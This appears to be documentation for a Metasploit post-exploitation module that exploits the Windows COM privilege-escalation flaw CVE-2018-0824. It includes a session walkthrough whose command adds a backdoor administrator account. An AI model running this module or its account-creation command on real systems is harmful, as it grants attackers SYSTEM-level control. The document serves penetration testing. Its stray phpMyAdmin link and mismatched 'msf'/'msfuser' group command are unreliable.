 ## Overview
This is a post exploitation module for local privilege escalation bug which exists in Microsoft COM for windows when it fails to properly handle serialized objects.

* https://www.phpmyadmin.net/downloads/
* https://github.com/codewhitesec/UnmarshalPwn/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-0824

## Module Options

"POCCMD" This command will be executed on successful exploitation.</br>
"SESSION" The session to run this module on.

## Limitations

The payload will not spawn ant independent session it simply creates process with the system privilege.
If the system is not vulnerable, then payload will execute but new process will not spawn.

## Verification steps

If you want to confirm the vulnerability before you add user or perform any other sensitive action. 

1. `set POCCMD /s notepad.exe` 
2. `run` 

Confirmation:

Then go to meterpreter session and confirm running process (ps)
If you see notepad.exe running as SYSYEM then that is as indication of vulnerable system.

## Usage

```
meterpreter > getuid
Server username: PC2\test
meterpreter > sysinfo 
Computer        : PC2
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : PSS
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > background 
[*] Backgrounding session 2...

msf > use post/windows/escalate/unmarshal 
msf post(windows/escalate/unmarshal) > show options 

Module options (post/windows/escalate/unmarshal):

 Name              Current Setting                                                       
 ----              ---------------                                                                        
POCCMD  /k net user msfuser msfpass /add && net localgroup administrators msf /add
READFILE             c:\boot.ini    
SESSION                   



msf post(windows/escalate/unmarshal) > set session 2


msf post(windows/escalate/unmarshal) > run

[!] SESSION may not be compatible with this module.
[*] exe name is: oQT0yWT834.exe
[*] poc name is: sJ76Il3UGj.sct
[*] Reading Payload from file /usr/share/metasploit-framework/data/exploits/CVE-2018-0824/UnmarshalPwn.exe
[!] writing to %TEMP%
[+] Persistent Script written to C:\Users\test\AppData\Local\Temp\oQT0yWT834.exe
[*] Reading Payload from file /usr/share/metasploit-framework/data/exploits/CVE-2018-0824/poc_header
[!] writing to %TEMP%
[+] Persistent Script written to C:\Users\test\AppData\Local\Temp\sJ76Il3UGj.sct
[*] Reading Payload from file /usr/share/metasploit-framework/data/exploits/CVE-2018-0824/poc_footer
[*] Starting module...

[*] Location of UnmarshalPwn.exe is: C:\Users\test\AppData\Local\Temp\oQT0yWT834.exe
[*] Location of poc.sct is: C:\Users\test\AppData\Local\Temp\sJ76Il3UGj.sct
[*] Executing command : C:\Users\test\AppData\Local\Temp\oQT0yWT834.exe C:\Users\test\AppData\Local\Temp\sJ76Il3UGj.sct
Query for IStorage
Call:  Stat
End:  Stat
Query for IMarshal
Call:  GetMarshalSizeMax
Unknown IID: {ECC8691B-C1DB-4DC0-855E-65F6C551AF49} 0000020CA320CDB0
Query for IMarshal
Call:  GetUnmarshalClass
Call:  GetMarshalSizeMax
Call:  MarshalInterface

[*] Post module execution completed


Confirmation 
Back in Meterpreter Session 

meterpreter > shell 
Process 3936 created.
Channel 185 created.
Microsoft Windows [Version 10.0.17134.1]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\temp\un>net user
net user

User accounts for \\PC2

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
User                   msfuser                  sshd                     
sshd_server              test                     WDAGUtilityAccount       
The command completed successfully.                                                                        
